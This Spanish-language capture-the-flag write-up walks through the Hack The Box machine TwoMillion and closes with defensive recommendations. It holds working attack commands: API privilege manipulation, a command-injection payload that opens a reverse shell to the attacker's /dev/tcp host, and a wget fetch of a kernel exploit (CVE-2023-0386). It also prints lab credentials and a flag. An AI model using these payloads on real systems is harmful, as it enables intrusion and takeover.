






# Information Gathering

## Nmap

Comenzamos el reconocimiento ejecutando un escaneo de Nmap para ver los puertos abiertos y guardarlos en allPorts.

```java
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.221 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-17 18:19 -05
Initiating SYN Stealth Scan at 18:19
Scanning 10.10.11.221 [65535 ports]
Discovered open port 22/tcp on 10.10.11.221
Discovered open port 80/tcp on 10.10.11.221
Completed SYN Stealth Scan at 18:19, 15.48s elapsed (65535 total ports)
Nmap scan report for 10.10.11.221
Host is up, received user-set (0.11s latency).
Scanned at 2025-11-17 18:19:02 -05 for 15s
Not shown: 59152 closed tcp ports (reset), 6381 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
           Raw packets sent: 76411 (3.362MB) | Rcvd: 62741 (2.510MB)
```

Del output anterior podemos ver que los puertos **22** (SSH) y **80** (HTTP) están abiertos.

Hacemos un escaneo más detallado con scripts por defecto y detección de versiones para obtener más información sobre estos servicios.

```java
❯ nmap -p22,80 -sC -sV 10.10.11.221 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-17 18:24 -05
Nmap scan report for 10.10.11.221
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds
```

**Análisis de los servicios:**

- **Puerto 22 (SSH)**: OpenSSH 8.9p1 en Ubuntu 3ubuntu0.1 El escaneo muestra las claves públicas del host:
  - ECDSA (256 bits)
  - ED25519 (256 bits)
  
  Este es un servicio SSH estándar y normalmente no será nuestro punto de entrada inicial, a menos que encontremos credenciales válidas o alguna vulnerabilidad específica.

- **Puerto 80 (HTTP)**: El servicio web está ejecutando **nginx** como servidor web. El escaneo muestra que:
  - El servidor realiza una redirección a `http://2million.htb/`, lo que indica que la aplicación espera ser accedida mediante un nombre de dominio específico (virtual host)
  - Para acceder correctamente a la aplicación, necesitaremos agregar `2million.htb` a nuestro archivo `/etc/hosts` apuntando a la IP del objetivo
  - Nginx es un servidor web de alto rendimiento comúnmente usado como proxy reverso o servidor web estático, pero también puede servir aplicaciones dinámicas

Bueno ahora hacemos `nvim /etc/hosts` y le damos a la tecla `I` para entrar en modo insertar, ponemos `10.10.11.221 2million.htb` y guardamos y salimos con ESC y :wq que es guardar y salir en nvim.

Vamos a construir un script de `python` y lanzar con `scapy` un barrido de puertos rápido, podemos ponerlo en `TwoMillion/scripts`.

Después de entender como funciona una comunicación `nmap -sS` podemos hacerla manualmente, el ejemplo de una implementación en python está en `/scripts/scanner.txt`.

**¿Cómo funciona el script?**

El script implementa un escaneo TCP SYN (similar a `nmap -sS`) de la siguiente manera:

1. **Función `scanPort(ip, port)`**: 
   - Crea un paquete TCP con flag SYN (`flags="S"`) usando Scapy
   - Envía el paquete al puerto objetivo y espera una respuesta con timeout de 2 segundos
   - Si recibe un paquete con flag SYN-ACK (`flags == 0x12`), significa que el puerto está abierto
   - Envía un paquete RST para cerrar la conexión sin completar el handshake (stealth scan)
   - Retorna `True` si el puerto está abierto, `False` en caso contrario

2. **Función `thread_function(ip, port)`**:
   - Ejecuta `scanPort` para un puerto específico
   - Si el puerto está abierto, imprime un mensaje informativo

3. **Función `main(ip, ports, end_port)`**:
   - Crea un thread por cada puerto a escanear para realizar el escaneo en paralelo
   - Muestra el progreso del escaneo en tiempo real
   - Espera a que todos los threads terminen con `thread.join()` antes de finalizar

**Nota importante sobre el límite de archivos abiertos:**

Antes de ejecutar el script puede que de error por un límite que pone el sistema, que controla cuántos descriptores de archivo podemos tener abiertos en un proceso. Cada conexión TCP consume un descriptor de archivo. Para solucionarlo, antes de ejecutar el script puedes subirle el límite a la terminal específica con `ulimit -n 4096`.

Ahora sí podemos ejecutar con `python3 scanner.py 10.ip.ip.ip 1-1000` siendo esta última parte el rango de puertos. Esto es **adicional** a la máquina pero viene bien para entender cómo funciona la comunicación y practicas un poco de scripting en python.



\ **Figure 1:** Resultado del escaneo Nmap

Por otro lado, podemos vamos a tratar de determinar el codename de ubuntu, buscamos en google la cabezera "OpenSSH 8.9p1 Ubuntu 3ubuntu0.1" + "launchpad".

De la busqueda sacamos que puede ser un ubuntu Jammy.

## Reconocimiento Web

Exploramos el servicio web en el puerto 80 (despues de agregarlo al `/etc/hosts`). La página principal muestra como una pagina home con multiples opciones.



\ **Figure 2:** Página principal del servicio web

En la imagen vemos cosas que pueden ser interesantes, primero lo que llama la atención es que tenemos una sección de login.

Entramos a la sección login pero no tenemos credenciales, podriamos intentar alguna inyección sql como es costumbre, pero por ahí no es.

No vemos ningun parametro para crear cuenta, mejor sigamos explorando la pagina.

Vemos una sección llamada "join", ingresamos y nos pide un codigo de invitación, estamos en la url `http://2million.htb/invite`. Al parecer para hacer el registro necesitamos un codigo de invitación (como dato curioso, asi se veia la pagina de HTB años atras y asi se registraba, con un codigo de invitación).

Para ver que podemos hacer, abrimos la consola del navegador y escribimos `this` directamente en la consola, como estamos en el scope global `this` apunta al dueño de ese scoper, que es el objeto `window`. Esto nos permite acceder y manipular propiedades y métodos del entorno global de la página web.

Lo mas interesante es el metodo `makeInviteCode: function makeInviteCode()`, probemos ejecutarlo.



\ **Figure 3:** Metodo de creacion de codigo de invitación.

Tenemos `data` que no entendemos, parece que está encriptada, vemos que tenemos `enctype: "ROT13"` que se refiere a un cifrado de sustitución simple donde cada letra se desplaza 13 posiciones en el alfabeto. Es un cifrado César con desplazamiento fijo de 13, que es su propia inversa (aplicar ROT13 dos veces devuelve el texto original).

Por ende vamos a desencriptarla.

Entonces en la terminal hacemos:

```bash
❯ echo 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr' | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Esto nos dió una gran pista, vemos un endpoint con una api, podemos intentar hacer un post con curl.

```json
❯ curl -s -X POST "http://2million.htb/api/v1/invite/generate" | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "AAAAAAAAAAAAAAAAAAA=",
    "format": "encoded"
  }
}
```

Al parecer nos da un valor que está en base64, entonces hacemos:

```java
❯ echo 'AAAAAAAAAAAAAAAAAA=' | base64 -d; echo
43BCJ-XL384-TGU6S-N2MCU
```

Parece que obtuvimos el codigo de invitación, lo pegamos en la web y nos manda al registro, si no nos mandara al registro igual podriamos usar gobuster o alguna herramienta similar para listar las rutas disponibles o con el mismo codigo fuente de la pagina.

Seguimos el proceso de registro y vemos que nos manda al dashboard.



\ **Figure 4:** Dashboard.

Vemos que es el sitio antiguo de HTB, lo primero sería revisar el perfil o algun tipo de configuración, no encontramos nada especial, pero como sabemos que estamos en HTB y HTB tiene opción de conexiones `VPN`. Vemos dos opciones de generar o regenerar VPN, si pasamos el cursor por arriba, vemos que sigue usando la misma url de la api anterior, podemos intentar ver que opciones tiene esa api.

Para eso usamos: 

```python
❯ curl -s -X GET "http://2million.htb/api/v1" -v
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
* using HTTP/1.x
> GET /api/v1 HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
```

Obtenemos `Unauthorized`, tal vez tenemos que pasar la cookie al hacer la peticion.

```java
❯ curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAA" | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Con esto ya podemos jugar mas, probemos la ruta para ver si un usuario es admin.

```java
❯ curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAAA" | jq
{
  "message": false
}
```

Podemos probar generar un `VPN` con `/api/v1/admin/vpn/generate` pero nos da `Unauthorized` al parecer valida que el usuario actual sea admin, tendriamos que cambiar ese valor a true, lo mas cercano para hacer eso es la ruta `/api/v1/admin/settings/update`.

```java
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAAAAA" | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Nos dice que el content type no es correcto, lo cambiamos.

```java
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAAA" -H "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ahora vemos algo mas interesante, falta el email, lo ponemos con el parametro `-d '{"email": "collin@collin.com"}'` al final del comando, vemos que nos dice que falta el parametro `is_admin`, tambien lo agregamos.

```json
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"email": "collin@collin.com", "is_admin": True}' | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"email": "collin@collin.com", "is_admin": "True"}' | jq
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"email": "collin@collin.com", "is_admin": 1}' | jq
{
  "id": 13,
  "username": "colliXn0108",
  "is_admin": 1
}
```

Despues de probar para ver que valor recibia, vemos que recibe `0` o `1`, probamos con `1` y al parecer funcionó, parece que nuestro usuario ahora es admin.

Confirmamos con:

```json
❯ curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAAA" | jq
{
  "message": true
}
```

Ahora podemos probar generar la VPN otra vez, nos pide poner el content type.

```json
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"username": "collinX0108"}'
```

Como respuesta nos devolvió la VPN, por ende estamos autorizados, si intentamos con otro usuario tambien la genera, al ser admins, podriamos intentar una inyeccion de comandos por ese parametro, tal vez ponendo un `;` en `{"username": "collinX0108 ;whoami"}`, pero no devuelve nada, tal vez hay codigo despues del comando por ende podemos intentar comentar lo que exista despues del `whoami`.

```json
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=AAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"username": "collinX0108; whoami #"}'
www-data
```

## Foothold

Confirmamos la vulnerabilidad, nos ponemos en escucha por el puerto 443 y ejecutamos: 

```java
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=AAAAAAAAAAAAAA" -H "Content-Type: application/json" -d '{"username": "collinX0108; bash -c \"bash -i >& /dev/tcp/10.ip.ip.ip/443 0>&1\";"}'
```

Pusimos barras invertidad en las comillas dobles para evitar que bash se confunda al haber tantas.

En la terminal que habiamos puesto en escucha por el puerto 443, vemos que obtuvimos acceso.

Hacemos el tratamiento habitual de la consola, lanzamos pseudoconsola con `script /dev/null -c bash`, después Ctrl + Z, `stty raw -echo; fg` y `reset xterm` y por último exportamos la variable `TERM`:

```java
www-data@2million:~/html$ echo $TERM
dumb
www-data@2million:~/html$ export TERM=xterm
```

```java
www-data@2million:~/html$ ls
Database.php  VPN     controllers  fonts   index.php  views
Router.php    assets  css	  images  js
www-data@2million:~/html$ cat Database.php 
<?php

class Database 
{
    private $host;
    private $user;
    private $pass;
    private $dbName;

    private static $database = null;
    
    private $mysql;

    public function __construct($host, $user, $pass, $dbName)
    {
        $this->host     = $host;
        $this->user     = $user;
        $this->pass     = $pass;
        $this->dbName   = $dbName;

        self::$database = $this;
    }
```

## Obtención de Credenciales

Interesante el archivo php, parece que las credenciales son variables de entorno, si hacemos un `ls -la` vemos que existe un `.env`, hacemos `cat`, y vemos las credenciales de admin.

```java
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Estas credenciales son para ganar acceso a la base de datos pero también si hacemos `ls -l /home/` vemos que existe un usuario `admin`, podemos intentar `su admin` y funciona, por ende podemos conectarnos por SSH.

## User Flag

Aquí ya exploramos:

```java
admin@2million:~$ cd 
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt
19398140d4b31ccd50cffb6a1fe66f71
```



\ **Figure 5:** User flag obtenida

Obtuvimos la flag de user.

# Privilege Escalation

## Enumeración del Sistema

Comenzamos enumerando el sistema para identificar posibles vectores de escalada de privilegios:

```java
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:~$ sudo -l
[sudo] password for admin: 
Sorry, try again.
[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.
```

No tenemos privilegios a nivel de sudoers, también intentamos privilegios SUID con `find / -perm -4000 2>/dev/null`, tampoco nos ayuda.

Para buscar archivos propiedad del usuario admin que puedan contener información útil, intentamos:

```java
admin@2million:~$ find / -user admin 2>/dev/null | grep -vE "sys|proc"
/run/user/1000
/run/user/1000/snapd-session-agent.socket
/run/user/1000/pk-debconf-socket
/run/user/1000/gnupg
/run/user/1000/gnupg/S.gpg-agent
/run/user/1000/gnupg/S.gpg-agent.ssh
/run/user/1000/gnupg/S.gpg-agent.extra
/run/user/1000/gnupg/S.gpg-agent.browser
/run/user/1000/gnupg/S.dirmngr
/run/user/1000/bus
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/0
```

Hacemos eso para enumerar archivos y directorios propiedad del usuario `admin` en el sistema, buscando posibles vectores de escalada de privilegios o información sensible.

Y vemos que tenemos `/var/mail/admin/`, podemos revisarlo.

```java
admin@2million:~$ cd /var/mail
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Vemos que el email que le enviaron al admin advierte sobre una vulnerabilidad OverlayFS / FUSE, por ahí tenemos que seguir, podemos hacer una búsqueda en internet `overlayfs / fuse vulnerability exploit escalation`, vemos que es la **CVE-2023-0386**, con esto ya podemos buscar en github algún exploit que explote el kernel.

## Explotación de CVE-2023-0386

Vamos a usar `https://github.com/sxlmnwb/CVE-2023-0386`, en la máquina víctima nos vamos al directorio `/tmp`, abrimos una nueva terminal en nuestra máquina en el directorio content de la máquina que estamos resolviendo y clonamos, comprimimos `zip comprimido.zip -r CVE-2023-0386/`.

En esa terminal nuestra servimos `python3 -m http.server 80`, en la terminal de la víctima hacemos `wget http://TU-IP-VPN/comprimido.zip`.

Se descarga, lo descomprimimos y entramos a la carpeta, según las instrucciones del github tenemos que ejecutar `make all` (esta máquina tenía make instalado, en otro caso hubiéramos necesitado instalar las herramientas de compilación con `apt install build-essential` o compilar manualmente los archivos fuente).

Después nos pide ejecutar en la máquina víctima `./fuse ./ovlcap/lower ./gc`, lo hacemos, pero también dice que necesitamos dos terminales entonces nos conectamos en otra terminal por SSH, hacemos `export TERM=xterm` y nos dirigimos al directorio `/tmp/CVE-2023-0386` y ejecutamos `./exp`.

Con esto obtenemos acceso como root.

## Root Flag

Vamos al directorio root y obtenemos la flag:



\ **Figure 6:** Root flag obtenida

# Vulnerabilidades Encontradas

1. **Exposición de Información en Código Cliente**: El código JavaScript del frontend expone métodos y datos sensibles (como `makeInviteCode` y mensajes encriptados con ROT13) que pueden ser inspeccionados y manipulados desde la consola del navegador, revelando endpoints de API y métodos de generación de códigos de invitación.

2. **Falta de Validación de Privilegios en API**: El endpoint `/api/v1/admin/settings/update` permite a usuarios regulares modificar su propio campo `is_admin` mediante una petición PUT, permitiendo escalación de privilegios sin validación adecuada del lado del servidor.

3. **Command Injection en Generación de VPN**: El endpoint `/api/v1/admin/vpn/generate` es vulnerable a inyección de comandos a través del parámetro `username`, permitiendo ejecución remota de código mediante la concatenación de comandos con `;` y comentarios con `#`.

4. **Exposición de Credenciales en Archivos de Configuración**: El archivo `.env` en el directorio web contiene credenciales de base de datos en texto plano, exponiendo información sensible que puede ser accedida si se obtiene acceso al sistema de archivos.

5. **Kernel Desactualizado (CVE-2023-0386)**: El sistema ejecuta un kernel Linux vulnerable a CVE-2023-0386, una vulnerabilidad en OverlayFS/FUSE que permite escalada de privilegios mediante la explotación de condiciones de carrera en el sistema de archivos.

# Curiosidad

Una vez obtenido acceso como root, explorando el directorio `/root` encontramos un archivo llamado `thank_you.json`. Este archivo contiene un mensaje encriptado que, al desencriptarlo varias veces con distintas tecnicas, revela un mensaje especial del equipo de Hack The Box:

```
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```

Este mensaje conmemora el hito de alcanzar 2 millones de usuarios en la plataforma Hack The Box, y es un detalle especial que los creadores de la máquina incluyeron como agradecimiento a la comunidad :)

# Conclusion

La máquina **TwoMillion** fue una excelente práctica que me mostró varios conceptos importantes de seguridad web, explotación de APIs, inyección de comandos y escalada de privilegios mediante vulnerabilidades del kernel.

**Puntos clave aprendidos:**

1. **Reconocimiento exhaustivo**: El escaneo Nmap reveló un sistema con servicios SSH y HTTP. La identificación de nginx como servidor web y la necesidad de agregar el dominio `2million.htb` al archivo `/etc/hosts` fue crucial para acceder correctamente a la aplicación.

2. **Inspección de código cliente**: Esta máquina me enseñó la importancia de inspeccionar el código JavaScript del frontend. Al acceder a la consola del navegador y explorar el objeto `window`, pude encontrar métodos como `makeInviteCode()` que revelaron información sobre cómo generar códigos de invitación y endpoints de API ocultos.

3. **Criptografía débil (ROT13)**: El uso de ROT13 para "encriptar" mensajes fue un ejemplo claro de seguridad por oscuridad. ROT13 es un cifrado de sustitución trivial que puede ser descifrado fácilmente, demostrando la importancia de usar algoritmos de cifrado adecuados.

4. **Explotación de APIs REST**: La enumeración de endpoints de API mediante peticiones GET a `/api/v1` me permitió descubrir funcionalidades administrativas. La explotación del endpoint `/api/v1/admin/settings/update` para modificar el campo `is_admin` fue un excelente ejemplo de falta de validación de privilegios en el lado del servidor.

5. **Command Injection**: La inyección de comandos a través del parámetro `username` en `/api/v1/admin/vpn/generate` me enseñó cómo los parámetros de entrada pueden ser explotados si no se sanitizan correctamente. El uso de `;` para concatenar comandos y `#` para comentar código posterior fue una técnica valiosa.

6. **Privilege Escalation mediante CVE del Kernel**: La escalada de privilegios mediante CVE-2023-0386 (OverlayFS/FUSE) fue una experiencia nueva. Aprendí sobre la importancia de mantener los kernels actualizados y cómo las vulnerabilidades del kernel pueden permitir escalada de privilegios incluso cuando no hay otros vectores obvios.

**Dificultades encontradas:**

- Inicialmente intenté técnicas de inyección SQL en el formulario de login sin éxito, lo que me llevó a explorar otras funcionalidades de la página.
- Entender cómo funcionaba el sistema de códigos de invitación y encontrar el método `makeInviteCode()` requirió exploración de la consola del navegador.
- La compilación y ejecución del exploit de CVE-2023-0386 requirió dos terminales simultáneas, lo que añadió complejidad al proceso.

**Recomendaciones de seguridad:**

- Nunca exponer información sensible en código cliente (JavaScript). Validar y autorizar todas las operaciones en el servidor.
- Implementar validación estricta de privilegios en todos los endpoints de API, especialmente en operaciones administrativas.
- Sanitizar y validar todas las entradas del usuario, especialmente parámetros que se pasan a comandos del sistema.
- No almacenar credenciales en archivos `.env` accesibles desde el directorio web. Usar variables de entorno del sistema o servicios de gestión de secretos.
- Mantener todos los componentes del sistema actualizados, especialmente el kernel del sistema operativo.
- Implementar logging y monitoreo para detectar intentos de explotación y escalada de privilegios.
- Usar algoritmos de cifrado adecuados en lugar de cifrados triviales como ROT13.

Esta máquina fue una excelente práctica que combinó explotación web, manipulación de APIs, inyección de comandos y escalada de privilegios mediante vulnerabilidades del kernel.

# References

1. [Hack The Box](https://www.hackthebox.com/)
2. [Hack The Box Forum](https://forum.hackthebox.com/)
3. [Pandoc LaTeX Template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [CVE-2023-0386 Exploit - sxlmnwb](https://github.com/sxlmnwb/CVE-2023-0386)

# PWNED

[PWNED LINK](https://labs.hackthebox.com/achievement/machine/2794675/547)
